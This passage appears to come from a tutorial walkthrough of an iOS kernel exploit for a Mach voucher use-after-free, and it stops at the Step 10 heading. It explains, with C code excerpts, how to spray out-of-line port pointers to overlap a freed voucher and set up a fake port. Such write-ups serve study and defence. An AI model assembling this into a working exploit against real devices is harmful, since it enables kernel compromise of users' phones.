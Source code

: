#### Step 8: Create the OOL ports pattern that will overlap the freed voucher

Now we need to create a pattern of OOL port pointers which will eventually overlap our vouchers. The author chooses the **kalloc.32768** zone to overlap the voucher , simply because its **2*(BLOCK_SIZE(ipc_voucher))** or **2*(0x4000)** and hence it will be easier to predict the offsets for the voucher. The number of port pointers are calculated based on the zone size divided by size of **uint64_t** which is the size of a port pointer. Then **calloc** call is used to initialize an array with the number of port pointers, each of size **mach_port_t** and then set to 0\. The **iterate_ipc_vouchers_via_mach_ports** function is used to walk through the port pointers assuming them as vouchers and using a call back function giving out the offset of the voucher, and then setting **iv_refs** of the voucher to point to the base port, which you must remember from Step 2\. The **ool_ports[voucher_start + 1]** is used because the **iv_refs** is at an offset **0x8** from the start of the voucher, and hence **ool_ports[voucher_start + 1]** will actually point to index **0x8** of the voucher. We will make the **iv_refs** field point to the base port, which is just before the pipe buffers. We also leave the **iv_port** pointer as **MACH_PORT_NULL** (set by calloc), so that when we can call **thread_get_mach_voucher** later on we get a new voucher port.

{% highlight c %}
    / 8\. Create the OOL ports pattern that we will spray to overwrite the freed voucher.
    	//
    	// We will reallocate the voucher to kalloc.32768, which is a convenient size since it lets
    	// us very easily predict what offsets in the allocation correspond to which fields of the
    	// voucher.
    	assert(BLOCK_SIZE(ipc_voucher) == 16384);
    	const size_t ool_port_spray_kalloc_zone = 32768;
    	const size_t ool_port_count = ool_port_spray_kalloc_zone / sizeof(uint64_t);
    	mach_port_t *ool_ports = calloc(ool_port_count, sizeof(mach_port_t));
    	assert(ool_ports != NULL);
    	// Now, walk though and initialize the "vouchers" in the ool_ports array.
    	iterate_ipc_vouchers_via_mach_ports(ool_port_count, ^(size_t voucher_start) {
    		// Send an OOL port one pointer past the start of the voucher. This will cause the
    		// port pointer to overlap the voucher's iv_refs field, allowing us to use the
    		// voucher port we'll get from thread_get_mach_voucher() later without panicking.
    		// This port plays double-duty since we'll later use the reference count bug again
    		// to increment the refcount/port pointer to point into our pipe buffer spray,
    		// giving us a fake port.
    		ool_ports[voucher_start + 1] = base_port;
    		// Leave the voucher's iv_port field (index 7) as MACH_PORT_NULL, so that we can
    		// call thread_get_mach_voucher() to get a new voucher port that references this
    		// voucher. This is what allows us to manipulate the reference count later to
    		// change the OOL port set above.
    	});
{% endhighlight %}
#### Step 9: Free the first GC Spray

{% highlight c %}
    / 9\. Free the first GC spray. This makes that memory available for zone garbage collection
    	// in the loop below.
    	destroy_ports(gc_ports, gc_port_count);
{% endhighlight %}
#### Step 10: Release the Vouchers created earlier thereby leaving a dangling port
